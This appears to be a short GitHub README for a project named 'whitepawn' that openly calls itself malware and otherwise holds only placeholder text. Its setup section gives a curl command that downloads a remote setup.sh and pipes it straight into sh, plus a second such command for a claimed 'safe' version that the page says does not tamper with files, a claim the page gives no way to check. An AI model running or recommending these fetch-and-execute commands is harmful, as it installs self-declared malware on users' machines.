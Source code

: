 <p align="center">
<img src="https://github.com/user-attachments/assets/815a9f0b-40fb-4f61-848c-1690bb5935ec" width="100">
</p>
<h1 align="center">whitepawn</h1>
<p align="center">placeholder text</p>

# Setup
!! * Remember, whitepawn is MALWARE!
<pre>
  <code>
<p align="center">curl -fsL "https://raw.githubusercontent.com/twinstarred/whitepawn/main/scripts/setup.sh" | sh</p>
      </code>
</pre>

!! * If you wish to install the SAFE version, which doesn't tamper with files or make any bad changes, use:
<pre>
  <code>
<p align="center">curl -fsL "https://raw.githubusercontent.com/twinstarred/whitepawn/main/scripts/safesetup.sh" | sh</p>
      </code>
</pre>

# About
this is text what would you know
